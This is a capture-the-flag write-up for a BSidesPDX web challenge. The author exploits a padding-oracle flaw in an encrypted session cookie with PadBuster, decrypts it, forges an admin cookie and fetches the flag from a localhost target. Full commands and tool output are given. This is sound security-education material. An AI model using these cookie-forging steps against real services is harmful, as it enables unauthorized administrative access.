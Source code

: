 # Web 200 Solution

##Solution

```
The great Oracle at Dodona welcomes you

What would you like to ask the Oracle? 
```

Some great Oracle...

Looking at the main page, there's a text box to input a question to ask the Oracle. Just about any input seems to reply with magic 8 ball type responses. 

It seems like this input box is not going to be useful. At this point, I run some enumeration and try to find any other valid pages. Interestingly, there is one page that returns a 403 Forbidden, the /admin page.

So it seems like this may be a page we want to get access to. There doesn't seem to be any sort of login, so what's controlling it? Taking a look at the request, there's an interesting cookie in there:
```
Cookie: session=e3759add-d75a-4773-8a60-d24048f9f42c; wisdom_of_the_gods=wLsHpvE7rRV32BHVdh8g31/WWvh/Kr69DtywOmB5s9Y0J8jIH36ojzXn2iN7HOSDK1wtXqcJewDLBoFjsJWVErurUxrAJlVBg4ixiloggs4zsMjnX5znQ2stGVCIf13Y5EVRPkWJHaK5qi%2BcyAlcvWBEiCKFIe4m2EZZ5tr1OJ%2Bp5nZr%2Bz1HmTq8Rkf1hpo3
```

The wisdom_of_the_gods looks potentially interesting. Wait...oracle, cookie, could this be a padding oracle vulnerability?

There's a nice utility for exactly these types of vulnerabilities called [PadBuster](https://github.com/GDSSecurity/PadBuster). All we have to do is grab the cookie, point it at the url, and see what happens.

```
padbuster http://127.0.0.1:4738 wLsHpvE7rRV32BHVdh8g31/WWvh/Kr69DtywOmB5s9Y0J8jIH36ojzXn2iN7HOSDK1wtXqcJewDLBoFjsJWVErurUxrAJlVBg4ixiloggs4zsMjnX5znQ2stGVCIf13Y5EVRPkWJHaK5qi%2BcyAlcvWBEiCKFIe4m2EZZ5tr1OJ%2Bp5nZr%2Bz1HmTq8Rkf1hpo3 16 -cookies wisdom_of_the_gods=wLsHpvE7rRV32BHVdh8g31/WWvh/Kr69DtywOmB5s9Y0J8jIH36ojzXn2iN7HOSDK1wtXqcJewDLBoFjsJWVErurUxrAJlVBg4ixiloggs4zsMjnX5znQ2stGVCIf13Y5EVRPkWJHaK5qi%2BcyAlcvWBEiCKFIe4m2EZZ5tr1OJ%2Bp5nZr%2Bz1HmTq8Rkf1hpo3
```

Which should give you an output of:
```
+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 200
[+] Location: N/A
[+] Content Length: 907

INFO: Starting PadBuster Decrypt Mode
*** Starting Block 1 of 8 ***

INFO: No error string was provided...starting response analysis

*** Response Analysis Complete ***

The following response signatures were returned:

-------------------------------------------------------
ID#	Freq	Status	Length	Location
-------------------------------------------------------
1	1	200	907	N/A
2 **	255	500	291	N/A
-------------------------------------------------------
```

Running it against ID#2 will go through the process of recovering the plaintext of the cookie. The resulting plaintext looks something like:
```
[+] Decrypted value (ASCII): {"username": "guest", "whats_the_answer_to_life_the_universe_and_everything": "", "security_put_some_text_here": ""}
```

Awesome, we can see that we're a guest. Maybe that's why we couldn't get to the admin page before. The nice thing about padbuster is it also allows you to set the plaintext you want to be recrypted and it will spit out the correct value for you to put into your cookie.

```
padbuster http://127.0.0.1:4738 wLsHpvE7rRV32BHVdh8g31/WWvh/Kr69DtywOmB5s9Y0J8jIH36ojzXn2iN7HOSDK1wtXqcJewDLBoFjsJWVErurUxrAJlVBg4ixiloggs4zsMjnX5znQ2stGVCIf13Y5EVRPkWJHaK5qi%2BcyAlcvWBEiCKFIe4m2EZZ5tr1OJ%2Bp5nZr%2Bz1HmTq8Rkf1hpo3 16 -cookies wisdom_of_the_gods=wLsHpvE7rRV32BHVdh8g31/WWvh/Kr69DtywOmB5s9Y0J8jIH36ojzXn2iN7HOSDK1wtXqcJewDLBoFjsJWVErurUxrAJlVBg4ixiloggs4zsMjnX5znQ2stGVCIf13Y5EVRPkWJHaK5qi%2BcyAlcvWBEiCKFIe4m2EZZ5tr1OJ%2Bp5nZr%2Bz1HmTq8Rkf1hpo3 -plaintext '{"username": "admin", "whats_the_answer_to_life_the_universe_and_everything": "", "security_put_some_text_here": ""}'

...

[+] Encrypted value is: trl3KJHTndq28WG0XrnPj9B6593W%2BVlSiB20tsaKlqylGVHVFz2xvXxQH8oR7ni%2BfWnhGtmtk6k%2BSxWkWESgKFl5aFzpzzDBVp9QoLQgO2Wdeijseus33psx8iEK8YRTeQygBz69lRJPIkUcjiJZgaV2TYEWt%2FN4DUa0C3Fz4y0AAAAAAAAAAAAAAAAAAAAA

```

So let's use that new value, put it into our cookie, and see if we can hit the admin page:
```
curl -b 'wisdom_of_the_gods=trl3KJHTndq28WG0XrnPj9B6593W%2BVlSiB20tsaKlqylGVHVFz2xvXxQH8oR7ni%2BfWnhGtmtk6k%2BSxWkWESgKFl5aFzpzzDBVp9QoLQgO2Wde3psx8iEK8YRTeQygBz69lRJPIkUcjiJZgaV2TYEWt%2FN4DUa0C3Fz4y0AAAAAAAAAAAAAAAAAAAAA' http://127.0.0.1:4738/admin

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>403 Forbidden</title>
<h1>Forbidden</h1>
<p>You don't have the permission to access the requested resource. It is either read-protected or not readable by the server.</p>

```

Still no access...however, there were two other fields that were in the decoded cookie. Maybe we need to populate those too. The answer to life, the universe, and everything is obviously 42 and the other fields says to put some text here so let's do that:

```
padbuster http://127.0.0.1:4738 wLsHpvE7rRV32BHVdh8g31/WWvh/Kr69DtywOmB5s9Y0J8jIH36ojzXn2iN7HOSDK1wtXqcJewDLBoFjsJWVErurUxrAJlVBg4ixiloggs4zsMjnX5znQ2stGVCIf13Y5EVRPkWJHaK5qi%2BcyAlcvWBEiCKFIe4m2EZZ5tr1OJ%2Bp5nZr%2Bz1HmTq8Rkf1hpo3 16 -cookies wisdom_of_the_gods=wLsHpvE7rRV32BHVdh8g31/WWvh/Kr69DtywOmB5s9Y0J8jIH36ojzXn2iN7HOSDK1wtXqcJewDLBoFjsJWVErurUxrAJlVBg4ixiloggs4zsMjnX5znQ2stGVCIf13Y5EVRPkWJHaK5qi%2BcyAlcvWBEiCKFIe4m2EZZ5tr1OJ%2Bp5nZr%2Bz1HmTq8Rkf1hpo3 -plaintext '{"username": "admin", "whats_the_answer_to_life_the_universe_and_everything": "42", "security_put_some_text_here": "trololol"}'

...

[+] Encrypted value is: dapH9HiqyGELErgHPMW9pP%2F1R94TJ4XPu8MSlcOnBkFu3eDzQqlIlfwp%2FzfYkthhi3D5QVxcuT77DhGckKsZqVAGjAJweoWZf9rsgO9rdDB87m5rvKYN05Wuc9f9Ovtggsrh5w74Rd7Yn2ZcJrCEB6duT95uyZAYbibXa18C7SMAAAAAAAAAAAAAAAAAAAAA
```

Ok, let's give this one a shot:

```
curl -b 'wisdom_of_the_gods=dapH9HiqyGELErgHPMW9pP%2F1R94TJ4XPu8MSlcOnBkFu3eDzQqlIlfwp%2FzfYkthhi3D5QVxcuT77DhGckKsZqVAGjAJweoWZf9rsgO9rdDB87m5Wuc9f9Ovtggsrh5w74Rd7Yn2ZcJrCEB6duT95uyZAYbibXa18C7SMAAAAAAAAAAAAAAAAAAAAA' http://127.0.0.1:4738/admin

<!doctype html>
<head>
	<link rel="stylesheet" type="text/css" href="/static/styles/style.css" />
</head>
<body>
	<h1 align="center">Welcome Oracle!</h1>
	<br />
	<p align="center">Walking by the sacred oak tree, the bronze cauldrons begin to ring...almost as if saying</p>
	<br />
	<br />
	<p align="center"><i>BSidesPDX{Th3_D0d0ni4n_ch4tt3rb0x_pr3dic7s_Y0ur_v!ct0ry}</i></p>
</body>
```

And there is it, the flag!